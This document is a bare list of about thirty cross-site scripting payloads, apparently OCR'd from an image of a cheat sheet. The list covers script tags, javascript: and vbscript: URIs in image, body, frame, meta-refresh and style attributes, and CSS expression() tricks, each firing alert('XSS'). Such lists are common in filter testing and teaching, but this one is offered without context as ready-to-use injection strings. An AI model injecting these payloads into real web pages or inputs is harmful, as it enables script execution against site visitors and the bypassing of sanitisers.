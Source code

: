 &lt;&lt;SCRIPT&gt;alert("XSS");//&lt;&lt;/SCRIPT&gt;

&lt;IMG SRC="javascript:alert('XSS')"

\";alert('XSS');//

&lt;/TITLE&gt;&lt;SCRIPT&gt;alert("XSS");&lt;/SCRIPT&gt;

&lt;INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');"&gt;

&lt;BODY BACKGROUND="javascript:alert('XSS')"&gt;

&lt;IMG DYNSRC="javascript:alert('XSS')"&gt;

&lt;IMG LOWSRC="javascript:alert('XSS')"&gt;

&lt;STYLE&gt;li {list-style-image: url("javascript:alert('XSS')");}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS&lt;/br&gt;

&lt;IMG SRC='vbscript:msgbox("XSS")'&gt;

&lt;BODY ONLOAD=alert('XSS')&gt;

&lt;BGSOUND SRC="javascript:alert('XSS');"&gt;

&lt;BR SIZE="&{alert('XSS')}"&gt;

&lt;LINK REL="stylesheet" HREF="javascript:alert('XSS');"&gt;

&lt;STYLE&gt;@im\port'\ja\vasc\ript:alert("XSS")';&lt;/STYLE&gt;

&lt;IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))"&gt;

exp/*&lt;A STYLE='no\xss:noxss("*//*");xss:ex/*XSS*//*/*/pression(alert("XSS"))'&gt;

&lt;STYLE TYPE="text/javascript"&gt;alert('XSS');&lt;/STYLE&gt;

&lt;STYLE&gt;.XSS{background-image:url("javascript:alert('XSS')");}&lt;/STYLE&gt;&lt;A CLASS=XSS&gt;&lt;/A&gt;

&lt;STYLE type="text/css"&gt;BODY{background:url("javascript:alert('XSS')")}&lt;/STYLE&gt;

&lt;XSS STYLE="xss:expression(alert('XSS'))"&gt;

&lt;XSS STYLE="behavior: url(xss.htc);"&gt;

¼script¾alert(¢XSS¢)¼/script¾

&lt;META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');"&gt;

&lt;META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');"&gt;

&lt;IFRAME SRC="javascript:alert('XSS');"&gt;&lt;/IFRAME&gt;

&lt;FRAMESET&gt;&lt;FRAME SRC="javascript:alert('XSS');"&gt;&lt;/FRAMESET&gt;

&lt;TABLE BACKGROUND="javascript:alert('XSS')"&gt;

&lt;TABLE&gt;&lt;TD BACKGROUND="javascript:alert('XSS')"&gt;

&lt;DIV STYLE="background-image: url(javascript:alert('XSS'))"&gt;

&lt;DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))"&gt;

&lt;DIV STYLE="width: expression(alert('XSS'));"&gt;
